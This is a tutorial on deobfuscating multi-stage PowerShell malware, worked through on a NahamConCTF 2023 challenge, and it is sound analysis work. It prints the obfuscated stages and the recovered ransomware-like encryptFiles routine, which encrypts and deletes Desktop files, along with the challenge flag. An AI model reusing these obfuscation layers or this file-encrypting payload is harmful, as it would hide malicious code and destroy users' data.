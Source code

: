 ```yaml
---
description: Deobfuscate heavily-obfuscated PowerShell scripts to find their source code
---
```


# PowerShell

Obfuscating PowerShell is a real art, and there are many ways to encode scripts in weird ways. Luckily, most of them work in the same way: 1. **Decoding some string** and 2. **Executing that string** as another stage in the script.&#x20;

Often this is a task of finding the part that _executes_ the code, removing it, and instead printing the code so you can analyze it further.&#x20;

I will explain this process with an **example**. This is taken from the _NahamConCTF 2023 - IR_ challenge, which provided the following PowerShell script:

{% file src="../.gitbook/assets/updates.ps1" %}
Obfuscated PowerShell script from the _NahamConCTF 2023 - IR_ challenge
{% endfile %}

It starts off with a lot of special characters that are supposed to evaluate into something:

{% code overflow="wrap" %}
```powershell
${;}=+$();${=}=${;};${+}=++${;};${@}=++${;};${.}=++${;};${[}=++${;}; ${]}=++${;};${(}=++${;};${)}=++${;};${&}=++${;};${|}=++${;}; ${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]"; ${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]); ${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]+"${;}"["${@}${)}"]; "${"}${.}${(}+${"}${]}${)}+${"}${)}${@}+${"}${+}${+}${&}+${"}${+}${+}${(}+${"}${)}${)}+${"}${)}${=}+${"}${|}${&}+${"}${(}${)}+${"}${]}${=}+${"}${&}${@}+${"}${)}${+}+${"}$
...
```
{% endcode %}

A common way to make a little sense of this is to format it, like adding **newlines** after `;` semicolons. In this case, however, there are semicolons used all over the place, not just as statement enders. To do this more cleanly we'll use the [`PowerShell-Beautifier`](https://github.com/DTW-DanWard/PowerShell-Beautifier) script to parse and format these statements, which will then allow us to separate a `${;}` from a `;` as only the second has a space after it.&#x20;

```powershell
PS> Install-Module -Name PowerShell-Beautifier
PS> Edit-DTWBeautifyScript -Source .\updates.ps1 -Destination .\stage0.ps1
```

When we afterward replace `;` with `;\n` in an IDE like Visual Studio Code, we find a more slightly more readable script:

```powershell
${;} = + $(); 
${=} = ${;}; 
${+} =++ ${;}; 
${@} =++ ${;}; 
${.} =++ ${;}; 
${[} =++ ${;}; 
${]} =++ ${;}; 
${(} =++ ${;}; 
${)} =++ ${;}; 
${&} =++ ${;}; 
${|} =++ ${;}; 
${"} = "[" + "$(@{})"[${)}] + "$(@{})"["${+}${|}"] + "$(@{})"["${@}${=}"] + "$?"[${+}] + "]"; 
${;} = "".("$(@{})"["${+}${[}"] + "$(@{})"["${+}${(}"] + "$(@{})"[${=}] + "$(@{})"[${[}] + "$?"[${+}] + "$(@{})"[${.}]); 
${;} = "$(@{})"["${+}${[}"] + "$(@{})"[${[}] + "${;}"["${@}${)}"]; 
"${"}${.}${(}+${"}${]}${)}+${"}${)}${@}+${"}${+}${+}${&}+${"}${+}${+}${(}+${"}${)}${)}+${"}${)}${=}+${"}${|}${&}+${"}${(}${)}+${"}${]}${=}+${"}${&}${@}+${"}${)}${+}+${"}${)}${[}+${"}${&}${&}+${"}${]}${[}+${"}${&}${|}+${"}${)}${|}+${"}${(}${]}+${"}${&}${.}+${"}${+}${=}${(}+${"}${)}${&}+${"}${+}
...
```

First, it defines a few variables with the `${}` syntax, and after, it uses those variables in a giant string. The first few variables are some primitives, and the last 3 variables seem to be more complicated but still short. We could statically try to reason with this, but a much simpler way would be to just let PowerShell **evaluate** it for us. Let's run the first few lines making sure nothing can trigger a payload on our investigating machine:

<pre class="language-powershell"><code class="lang-powershell">${;} = + $(); 
${=} = ${;}; 
${+} =++ ${;}; 
${@} =++ ${;}; 
${.} =++ ${;}; 
${[} =++ ${;}; 
${]} =++ ${;}; 
${(} =++ ${;}; 
${)} =++ ${;}; 
${&#x26;} =++ ${;}; 
${|} =++ ${;}; 
${"} = "[" + "$(@{})"[${)}] + "$(@{})"["${+}${|}"] + "$(@{})"["${@}${=}"] + "$?"[${+}] + "]"; 
${;} = "".("$(@{})"["${+}${[}"] + "$(@{})"["${+}${(}"] + "$(@{})"[${=}] + "$(@{})"[${[}] + "$?"[${+}] + "$(@{})"[${.}]); 
${;} = "$(@{})"["${+}${[}"] + "$(@{})"[${[}] + "${;}"["${@}${)}"]; 

<strong>PS> ${"}
</strong>[CHar]
<strong>PS> ${;}
</strong>iex
</code></pre>

Here we find a very important string: `iex` which means **I**nvoke-**Ex**pression. This will take a string, and execute it as PowerShell code, which is very common for these obfuscators. We need to be careful to **remove** this part to make sure our code is not actually run, only the string is evaluated for us.&#x20;

All the way at the end of the script we find:

```bash
...${]}${|}|${;}" | &${;};
```

We will remove this `${;}` now that we know it means to evaluate and run the code, and instead replace it with a `Write-Output` command which simply prints it to the console:

```bash
...${]}${|}|${;}" | Write-Output
```

Running this safe script now prints the next stage of the script, obfuscated in a different way:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>PS> .\stage0.ps1 > stage1.ps1
</strong>
[CHar]36+[CHar]57+[CHar]72+[CHar]118+[CHar]116+[CHar]77+[CHar]70+[CHar]98+[CHar]67+[CHar]50+[CHar]82+[CHar]71+[CHar]74+[CHar]88+[CHar]54+[CHar]89+[CHar]79+[CHar]65+[CHar]83+[CHar]106+[CHar]78+[CHar]101+[CHar]66+[CHar]120+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]61+[CHar]107+[CHar]105+[CHar]73+[CHar]119+[CHar]108+[CHar]109+[CHar]101+[CHar]117+[CHar]65+[CHar]51+[CHar]98+[CHar]48+[CHar]116+[CHar]50
...
[CHar]86+[CHar]32+[CHar]59|iex
</code></pre>

It uses a very similar scheme, building out a script and then evaluating it with `iex`, literally this time. In a very similar fashion to last time, we'll simply remove the trigger of the payload and only print it using `Write-Output`:

```
...
[CHar]86+[CHar]32+[CHar]59 | Write-Output
```

When we now execute the safe script, we find another stage:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>PS> .\stage1.ps1 > stage2.ps1
</strong>
$9HvtMFbC2RGJX6YOASjNeBx = "=kiIwlmeuA3b0t2clREXzRWYvxmb39GRcJyKyV2c1RyKiw1cyV2cVxlODJCKggGdhBFbhJXZ0lGTtASblRXStUmdv1WZSpQD5R2biRCI5R2bC1CIi42bpRXYyRHbpZGel9SbvNmLyV2ajFGasxWZoNncld3bwVGa05yd3d3LvozcwRHdoJCIpJXVtACdz9GUgQ2boRXZN1CI0NXZ1FXZyJWZX1SZr9mdulkCN0XY0FGRlxWaGBXa6RSPlxWamtHQgQ3YlpmYPRXdw5WStAibvNnSt8GV0JXZ252bDBSPgkHZvJGJK0QKzVGd5JUZslmRwlmekgyZulmc0NFN2U2chJ0bUpjOdRnclZnbvN0Wg0DIhRXYEVGbpZEcppHJK0QZ0lnQgcmbpR2bj5WRtAydhJVLgkiIwlmeuA3b0t2c
...
N3bwBCL9VWdyR3ek0Tey9GdhRmbh1EKyVGdl1WYyFGUblQCK0AKtFmchBVCK0wezVGbpZEdwlncj5WZg42bpR3YuVnZ" ; $OaET = $9HvtMFbC2RGJX6YOASjNeBx.ToCharArray() ; [array]::Reverse($OaET) ; -join $OaET 2>&#x26;1> $null ; $biPIv9ahScgYwGXl0FyV = [SySteM.tExt.EnCOding]::uTf8.GetStRIng([SySTEm.COnVerT]::FrombASe64StRINg("$OaET")) ; $ehyGknDcqxFwCYJz5vfot4T8 = "iN"+"vo"+"Ke"+"-e"+"xP"+"RE"+"ss"+"Io"+"n" ; neW-aLIAs -NAme PwN -VAlUE $ehyGknDcqxFwCYJz5vfot4T8 -forCE ; pWN $biPIv9ahScgYwGXl0FyV ;
</code></pre>

This is another nightmare one-liner, but we'll simply use the `PowerShell-Beautifier` trick together with replacing `;` with `;\n` to make it more readable:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS> Edit-DTWBeautifyScript -Source .\stage2.ps1 -Destination .\stage2.ps1
</strong>
$9HvtMFbC2RGJX6YOASjNeBx = "=kiIwlmeuA3b0t2clREXzRWYvxmb39GRcJyKyV2c1RyKiw1cyV2cVxlODJC...zVGbpZEdwlncj5WZg42bpR3YuVnZ";
$OaET = $9HvtMFbC2RGJX6YOASjNeBx.ToCharArray();
[array]::Reverse($OaET);
-join $OaET 2>&#x26;1 > $null;
$biPIv9ahScgYwGXl0FyV = [System.Text.Encoding]::uTf8.GetStRIng([System.Convert]::FrombASe64StRINg("$OaET"));
$ehyGknDcqxFwCYJz5vfot4T8 = "iN" + "vo" + "Ke" + "-e" + "xP" + "RE" + "ss" + "Io" + "n";
New-Alias -Name PwN -Value $ehyGknDcqxFwCYJz5vfot4T8 -Force;
pWN $biPIv9ahScgYwGXl0FyV;
</code></pre>

Pretty clearly we can read the string concatenation in `$ehyGknDcqxFwCYJz5vfot4T8` is another `Invoke-Expression`. This is assigned to a `New-Alias` as `PwN`. Later we see this alias used on another string, which would be executed as code. So instead, we again replace this with a `Write-Console` to find what it does:

```powershell
$9HvtMFbC2RGJX6YOASjNeBx = "=kiIwlmeuA3b0t2clREXzRWYvxmb39GRcJyKyV2c1RyKiw1cyV2cVxlODJC...zVGbpZEdwlncj5WZg42bpR3YuVnZ";
$OaET = $9HvtMFbC2RGJX6YOASjNeBx.ToCharArray();
[array]::Reverse($OaET);
-join $OaET 2>&1 > $null;
$biPIv9ahScgYwGXl0FyV = [System.Text.Encoding]::uTf8.GetStRIng([System.Convert]::FrombASe64StRINg("$OaET"));
Write-Output $biPIv9ahScgYwGXl0FyV;
```

Running this final stage we find the clean source code:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS>  .\stage2.ps1 > stage3.ps1
</strong>
function encryptFiles{
	Param(
		[Parameter(Mandatory=${true}, position=0)]
		[string] $baseDirectory
	)
	foreach($File in (Get-ChildItem $baseDirectory -Recurse -File)){
		if ($File.extension -ne ".enc"){
			$DestinationFile = $File.FullName + ".enc"
			$FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
			...
			$FileStreamWriter.Close()
			Remove-Item -LiteralPath $File.FullName
		}
	}
}
$flag = "flag{892a8921517dcecf90685d478aedf5e2}"
$ErrorActionPreference= 'silentlycontinue'
$user = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name.Split("\")[-1]
encryptFiles("C:\Users\"+$user+"\Desktop")
...
</code></pre>

In this challenge, the flag was found here. But in other cases, you might want to understand the `encryptFiles` function now to find how files are encrypted, and how they can be decrypted.&#x20;



For another example that digs more into understanding the payload, see this [walkthrough](https://www.youtube.com/watch?v=GguO\_Oc0h5A) of another piece of obfuscated PowerShell malware.&#x20;
